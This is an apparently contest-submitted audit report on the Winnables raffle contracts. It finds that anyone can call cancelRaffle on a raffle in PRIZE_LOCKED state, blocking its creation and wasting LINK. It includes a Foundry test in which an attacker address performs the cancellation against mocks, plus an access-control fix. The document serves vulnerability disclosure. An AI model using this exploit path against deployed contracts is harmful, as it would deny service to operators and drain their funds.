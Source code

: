 Funny Pickle Grasshopper

High

# `WinnablesTicketManager::cancelRaffle` function allowing anyone to cancel a Raffle when it is in `PRIZE_LOCKED` state leads to DoS to create a raffle via `createRaffle`

## Summary
- The `cancelRaffle` is callable by anyone.
- It calls `_checkShouldCancel` to check whether the raffle should be cancelled or not.
- For the case when Raffle is in `PRIZE_LOCKED` state it simply returns which means it has approved that raffle can be cancelled, but as `cancelRaffle` is callable by anyone, therefore anyone can cancel a Raffle when it is in PRIZE_LOCKED state where it was expected to be a admin action, whether to cancel it or start it in that phase.
- Thus, this results in a DoS for the admins, as they would not be able to create a raffle via `createRaffle`, because as soon as PRIZE_LOCKED status arrives on ticket manager, anyone can call for cancel raffle, thus preventing the admins to start a raffle and also leads to LINK token wastage as CCIP message is transferred to prize manager for unlocking the tokens.
- Therefore, for the case when Raffle is in `PRIZE_LOCKED` state, the `cancelRaffle` function should only allow the admins to cancel the Raffle.

## Vulnerability Detail
- The vulnerability is present in the `WinnablesTicketManager::cancelRaffle` function where it allows anyone to cancel a Raffle for the case when Raffle is in `PRIZE_LOCKED`.
- Initially when prize is locked on prize manager which then transfers a ccip message to ticket manager to mark that raffle in `PRIZE_LOCKED` state, and after that the admin can continue with the Raffle by calling `createRaffle` function.
- But, as the `cancelRaffle` function allows anyone to cancel a Raffle, thus as soon as the Raffle's declaration message is received and it is marked under `PRIZE_LOCKED` state, a malicious attacker can call for its cancellation and results in a DoS for the admins to create that raffle.

## Impact
Anyone calling `cancelRaffle` just after CCIP message is received for declaring a Raffle in `PRIZE_LOCKED` state, leads to DoS in creation of that Raffle and also wastage of LINK token.

## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L278

## PoC
Here is a coded PoC to demonstrate the vulnerability in Foundry.

Pre-requisites: Integrating foundry in hardhat.

1. Install hardhat-foundry:
```bash
yarn add --dev @nomicfoundation/hardhat-foundry
```
2. Import in hardhat config:
```js
require("@nomicfoundation/hardhat-foundry");
```
3. Complete the setup:
```bash
npx hardhat init-foundry
```

Run the test:
```bash
forge test --mt test_DoS_In_CreatingARaffle_As_AnyoneCanCancelItDuring_PrizeLockedStatus
```

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.24;

import { Test } from "forge-std/Test.sol";
import "contracts/WinnablesPrizeManager.sol";
import "contracts/WinnablesTicketManager.sol";
import "contracts/WinnablesTicket.sol";
import "@chainlink/contracts/src/v0.8/interfaces/LinkTokenInterface.sol";
import "@chainlink/contracts/src/v0.8/mocks/VRFCoordinatorV2Mock.sol";
import "contracts/mock/MockCCIPRouter.sol";
import { ERC677 } from "@chainlink/contracts-ccip/src/v0.8/shared/token/ERC677/ERC677.sol";

contract WinnablesTest is Test {
    address linkToken;
    address ccipRouter;
    VRFCoordinatorV2Mock vrfCoordinator;
    uint64 subId;
    bytes32 keyHash;
    WinnablesPrizeManager prizeManager;
    WinnablesTicket ticket;
    WinnablesTicketManager ticketManager;
    uint64 chainSelectorForAnyXChain = 1;
    address alice;
    address bob;
    address admin;
    uint256 constant BALANCE = 100e18;


    function setUp() external {
        alice = makeAddr("alice");
        bob = makeAddr("bob");
        admin = makeAddr("admin");

        linkToken = address(new ERC677("LINK", "LINK"));
        ccipRouter = address(new CCIPRouter(linkToken));
        vrfCoordinator = new VRFCoordinatorV2Mock(0.25e18, 100000);
        keyHash = 0x474e34a077df58807dbe9c96d3c009b23b3c6d0cce433e59bbf5b34f823bc56c;

        deal(linkToken, admin, BALANCE);
        vm.deal(alice, BALANCE);
        vm.deal(bob, BALANCE);

        vm.startPrank(admin);

        uint256 fundAmt = 10e18;
        subId = vrfCoordinator.createSubscription();
        vrfCoordinator.fundSubscription(subId, uint96(fundAmt));

        prizeManager = new WinnablesPrizeManager(linkToken, ccipRouter);
        ticket = new WinnablesTicket();
        ticketManager = new WinnablesTicketManager(
            linkToken,
            address(vrfCoordinator),
            subId,
            keyHash,
            address(ticket),
            ccipRouter
        );

        ticket.setRole(address(ticketManager), 1, true);
        vrfCoordinator.addConsumer(subId, address(ticketManager));

        ticketManager.setCCIPCounterpart(address(prizeManager), chainSelectorForAnyXChain, true);

        uint256 ticketManagerLinkBal = 10e18;
        IERC20(linkToken).transfer(address(ticketManager), ticketManagerLinkBal);

        vm.stopPrank();
    }

    function test_DoS_In_CreatingARaffle_As_AnyoneCanCancelItDuring_PrizeLockedStatus() public {
        uint256 raffleId_1 = 1;
        _prepareReceivingMessageAndSendToTicketManager(raffleId_1);

        // now raffle is in PRIZE_LOCKED
        IWinnables.RaffleStatus status;
        (, , , , , , status, ) = ticketManager.getRaffle(raffleId_1);
        assert(status == IWinnables.RaffleStatus.PRIZE_LOCKED);

        // After the prize locked state, the owner can start the raffle or can cancel it
        // but the cancellation of raffle is open to everyone, and thus anyone can cancel it during
        // prize locked state, creating a DoS in creating a raffle and wastage of LINK to send cancel status

        uint256 linkBalanceBefore = IERC20(linkToken).balanceOf(address(ticketManager));

        // the attacker cancels the raffle, just after ccip message is received
        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        ticketManager.cancelRaffle(address(prizeManager), chainSelectorForAnyXChain, raffleId_1);

        uint256 linkBalanceAfter = IERC20(linkToken).balanceOf(address(ticketManager));
        (, , , , , , status, ) = ticketManager.getRaffle(raffleId_1);
        assert(status == IWinnables.RaffleStatus.CANCELED);
        assert(linkBalanceAfter < linkBalanceBefore);

        // owner tries to create a raffle
        uint64 start = uint64(block.timestamp);
        uint64 end = uint64(start + 2 days);
        uint16 minMaxTicket = 2;

        vm.expectRevert(IWinnablesTicketManager.PrizeNotLocked.selector);
        vm.prank(admin);
        ticketManager.createRaffle(raffleId_1, start, end, minMaxTicket, minMaxTicket, minMaxTicket);
    }

    function _prepareReceivingMessageAndSendToTicketManager(uint256 raffleId) internal {
        Client.Any2EVMMessage memory receivingMessage = Client.Any2EVMMessage({
            messageId: bytes32(uint256(1)),
            sourceChainSelector: chainSelectorForAnyXChain,
            sender: abi.encode(address(prizeManager)),
            data: abi.encodePacked(raffleId),
            destTokenAmounts: new Client.EVMTokenAmount[](0)
        });

        vm.prank(ccipRouter);
        ticketManager.ccipReceive(receivingMessage);
    }

}
```

## Tool used
Manual Review

## Recommendation
For the case when Raffle is in `PRIZE_LOCKED` state, only allow the admins to cancel the Raffle.